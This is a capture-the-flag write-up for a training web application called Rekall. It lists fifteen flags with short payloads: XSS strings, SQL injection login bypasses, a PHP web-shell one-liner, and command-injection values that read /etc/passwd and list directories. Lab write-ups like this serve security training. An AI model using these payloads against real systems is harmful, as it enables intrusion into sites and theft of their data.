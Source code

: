 # Project-2-Ctfd

CTF Challenge Write-up Document

Flag 1:
Method: Cross-site scripting (XSS)
Payload: <script>alert("")</script>
![Flag 1](/home/kali/Desktop/CTF/flag1.png)


Flag 2:
Method: XSS with malformed script tags
Payload: <SCRIPscriptT>alert(")</SCRIPscriptT>
![Flag 1](/home/kali/Desktop/CTF/flag2.png)


Flag 3:
Method: Cross-site scripting (XSS)
Payload: <script>alert("")</script>
![Flag 1](/home/kali/Desktop/CTF/flag3.png)


Flag 4:
Method: Intercepting HTTP requests and responses using Burp Suite
Action: Used Burp Suite on About Rekall page and then sent to response
![Flag 1](/home/kali/Desktop/CTF/flag4.png)

Flag 5:
Method: File upload vulnerability leading to remote code execution
Payload: <?php $command = $_GET['cmd']; echo system($command); ?>
![Flag 1](/home/kali/Desktop/CTF/flag5.png)

Flag 6:
Method: File upload vulnerability leading to remote code execution (Similar to Flag 5)
Payload: Similar PHP code used in Flag 5 to execute commands
![Flag 1](/home/kali/Desktop/CTF/flag6.png)

Flag 7:
Method: SQL Injection
Payload: login ' OR '1'='1' -- password ' OR '1'='1' --
![Flag 1](/home/kali/Desktop/CTF/flag7.png)

Flag 8:
Method: Admin login bypass
Action: Used admin username and password to login
![Flag 1](/home/kali/Desktop/CTF/flag8.png)

Flag 9:
Method: Information leakage through improperly secured robots.txt file
Action: Accessed /robots.txt to retrieve the flag
![Flag 1](/home/kali/Desktop/CTF/flag9.png)

Flag 10:
Method: Command injection via DNS Lookup
Payload: www.example.com | cat venders.txt
![Flag 1](/home/kali/Desktop/CTF/flag10.png)

Flag 11:
Method: Direct access to restricted files
Action: Accessed /networking.php directly to obtain the flag
![Flag 1](/home/kali/Desktop/CTF/flag11.png)

Flag 12:
Method: Brute force attack
Credentials Discovered: melina:melina
![Flag 1](/home/kali/Desktop/CTF/flag12.png)

Flag 13:
Method: Command Injection
Payload: ;system('cat /etc/passwd')
![Flag 1](/home/kali/Desktop/CTF/flag13.png)

Flag 14:
Method: Unauthorized access to admin data via URL manipulation
Action: Accessed /admin_legal_data.php with the 'admin' parameter set to a specific value
![Flag 1](/home/kali/Desktop/CTF/flag14.png)

Flag 15:
Method: Exploiting the Mail Server by injecting commands
Payload: www.example.com | ls -A; accessed /old_disclaimers directory after that
![Flag 1](/home/kali/Desktop/CTF/flag15.png)

